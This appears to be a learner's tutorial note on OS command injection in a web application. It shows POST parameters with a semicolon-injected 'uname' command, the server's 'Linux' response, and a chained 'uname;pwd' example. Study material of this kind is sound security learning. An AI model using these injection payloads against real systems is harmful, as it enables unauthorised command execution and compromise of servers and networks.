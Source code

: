 # Section 8: OS Command Injection

## Discovering a Basic Command Injection Vulnerability

**Execute system commands on the target web server**
- Compromise the application & server
- Compromise the network and other resources

  e.g. in a POST request payload, in BURP suite:

  ```
  productId=3;uname&storeId=2
  ```

  ```
  productId=3&storeId=2;uname
  ```

returns:
```
73
Linux
```

  added semicolon because I can run this in the system:

  ```
  uname;pwd
  ```

---
